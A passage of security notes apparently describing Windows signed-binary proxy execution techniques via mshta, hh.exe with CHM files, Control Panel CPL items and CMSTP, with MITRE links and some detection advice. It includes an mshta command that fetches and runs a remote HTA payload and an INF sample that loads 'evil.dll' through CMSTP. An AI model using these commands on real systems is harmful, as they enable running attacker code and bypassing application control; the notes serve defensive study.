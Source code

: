 Mshta.exe is a utility that executes Microsoft HTML Applications (HTA) files.

```none
mshta http://webserver/payload.hta
```

##### Compiled HTML files

CHM files are commonly distributed as part of the Microsoft HTML Help system.
CHM files are compressed compilations of various content such as HTML documents, images, and scripting/web related programming languages such VBA, JScript, Java, and ActiveX.

###### hh.exe

[hh] is a binary used for processing chm files in Windows

Paths:
C:\Windows\System32\hh.exe
C:\Windows\SysWOW64\hh.exe

<https://oddvar.moe/2017/08/13/bypassing-device-guard-umci-using-chm-cve-2017-8625/>

Prevent execution of hh.exe though an Application Control mechanism
Monitor and analyze the execution and arguments of hh.exe.

##### Control Panel items

Control Panel items are registered executable (.exe) or Control Panel (.cpl) files, the latter are actually renamed dynamic-link library (.dll) files that export a CPlApplet function.

Monitor and analyze activity related to items associated with CPL files

```bash
rundll32.exe shell32.dll,Control_RunDLL file.cpl
control.exe file.cpl
```

<https://attack.mitre.org/techniques/T1218/002/>

##### Setup Information file

An INF file or Setup Information file is a plain-text file used by Microsoft Windows for the installation of software and drivers.

[CMSTP](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/cmstp) is a binary which is associated with the Microsoft Connection Manager Profile Installer.

```inf
[version]
Signature=$chicago$
AdvancedINF=2.5
 
[DefaultInstall_SingleUser]
RegisterOCXs=RegisterOCXSection
 
[RegisterOCXSection]
C:\experiments\cmstp\evil.dll
 
[Strings]
AppAct = "SOFTWARE\Microsoft\Connection Manager"
ServiceName="mantvydas"
ShortSvcName="mantvydas"
```
